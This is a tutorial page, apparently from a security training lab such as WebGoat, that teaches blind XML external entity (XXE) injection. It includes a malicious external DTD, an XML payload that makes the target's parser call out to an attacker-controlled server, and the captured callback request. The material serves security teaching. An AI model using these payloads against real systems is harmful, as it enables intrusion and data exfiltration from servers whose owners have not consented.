 == Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference an external DTD which we control on our own server.

As an attacker you have WebWolf under your control (*this can be any server under your control.*), you can for example use this server to ping it using `webWolfRootLink:landing[noLink]`

How do we use this endpoint to verify whether we can perform XXE?

We can again use WebWolf to host a file called `attack.dtd`, create this file with the following contents:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'webWolfRootLink:landing[noLink, target=landing]'>
----

Now submit the form change the xml using to:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "webWolfLink:[webWolfLink]">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Now in WebWolf browse to 'Incoming requests' and you will see:

[source]
----
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
----

So with the XXE we are able to ping our own server which means XXE injection is possible. So with the XXE injection we are basically able to reach the same effect as we did in the beginning with the curl command.
